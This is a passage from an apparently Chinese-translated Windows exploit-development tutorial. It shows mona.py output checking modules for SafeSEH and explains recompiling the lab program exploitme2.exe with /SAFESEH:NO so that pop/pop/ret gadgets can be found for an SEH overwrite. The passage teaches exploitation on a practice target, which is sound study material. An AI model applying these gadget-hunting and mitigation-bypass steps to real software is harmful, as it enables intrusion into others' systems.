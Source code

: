      0x75ab0000 | 0x75ab5000 | 0x00005000 | False  | True    | True  |  True    | True   | 6.1.7600.16385 [PSAPI.DLL] (C:\Windows\syswow64\PSAPI.DLL)
     0x761c0000 | 0x762c0000 | 0x00100000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [USER32.dll] (C:\Windows\syswow64\USER32.dll)
     0x762f0000 | 0x76350000 | 0x00060000 | False  | True    | True  |  True    | True   | 6.1.7601.17514 [IMM32.DLL] (C:\Windows\SysWOW64\IMM32.DLL)
    ----------------------------------------------------------------------------------------------------------------------------------    
    
    
    [+] This mona.py action took 0:00:00.110000  
    

我们可以看到所有已加载的模块具有SafeSEH =True属性。对于我们来说这显然是坏消息。如果某个模块启用了SafeSEH保护机制进行编译，同时它含有一个被允许的SEHhandler列表以及地址被包含在那个模块中的handler，但是没在列表中的都被忽略了。

地址0x75dfd75d在模块kernel32.dll中，但是没有在它的已允许的handler列表中，因此我们不能使用它。通常的解决方法是选择具有SafeSEH = False属性的模块，但是在我们的案例中，启用了SafeSEH保护机制来对所有模块进行编译。

因为我们在这只是正在学习“走路”，我们在VS2013中通过修改配置关闭SafeSEH保护机制来对exploiotme2.exe进行重编译，修改的配置如下：

  * Configuration Properties 
    * Linker 
      * Advanced 
        * Image Has Safe Exception Handlers: No (/SAFESEH:NO) 

现在让我们在exploitme2.exe中找到`pop/pop/ret`序列：

    
    
    0:000> !py mona findwild -s "pop r32#pop r32#ret" -m exploitme2.exe
    Hold on...
    [+] Command used:
    !py mona.py findwild -s pop r32#pop r32#ret -m exploitme2.exe    
    
    ---------- Mona command started on 2015-03-19 00:53:54 (v2.0, rev 554) ----------
    [+] Processing arguments and criteria
        - Pointer access level : X
        - Only querying modules exploitme2.exe
    [+] Type of search: str
    [+] Searching for matches up to 8 instructions deep
    [+] Generating module info table, hang on...
        - Processing modules
        - Done. Let's rock 'n roll.
    [+] Started search (8 start patterns)
    [+] Searching startpattern between 0x00e90000 and 0x00e96000
    [+] Preparing output file 'findwild.txt'
        - (Re)setting logfile findwild.txt
    [+] Writing results to findwild.txt
        - Number of pointers of type 'pop eax # pop esi # retn' : 1
        - Number of pointers of type 'pop ecx # pop ecx # retn' : 1
        - Number of pointers of type 'pop edi # pop esi # retn' : 2
        - Number of pointers of type 'pop ecx # pop ebp # retn' : 1
        - Number of pointers of type 'pop ebx # pop ebp # retn' : 1
    [+] Results :
    0x00e91802 |   0x00e91802 (b+0x00001802)  : pop eax # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    0x00e9152f |   0x00e9152f (b+0x0000152f)  : pop ecx # pop ecx # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    0x00e918e7 |   0x00e918e7 (b+0x000018e7)  : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    0x00e91907 |   0x00e91907 (b+0x00001907)  : pop edi # pop esi # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    0x00e9112b |   0x00e9112b (b+0x0000112b)  : pop ecx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
    0x00e91630 |   0x00e91630 (b+0x00001630)  : pop ebx # pop ebp # retn | startnull {PAGE_EXECUTE_READ} [exploitme2.exe] ASLR: True, Rebase: False, SafeSEH: False, OS: False, v-1.0- (exploitme2.exe)
        Found a total of 6 pointers    
    
